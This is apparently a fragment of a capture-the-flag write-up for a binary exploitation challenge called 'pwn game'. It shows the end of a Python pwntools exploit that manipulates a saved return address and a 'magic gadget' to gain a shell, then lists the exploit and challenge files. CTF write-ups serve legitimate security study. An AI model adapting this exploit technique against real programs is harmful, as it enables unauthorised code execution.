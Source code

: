 ```python
    saved_rip = saved_rip >> 4
    magic_gadget = magic_gadget >> 4
    byte_offset += "d"

# exit the game
r.recvuntil("============ TUTORIAL ============")
for i in xrange(6):
    r.sendline("")
r.sendline("q")
r.recvuntil("PRESS ENTER TO EXIT!")
r.sendline("")

r.interactive()
```

# Files
- [Exploit](exploit.py)
- [Challenge.tar.xz](pwn game-fd561b730951afff.tar.xz)

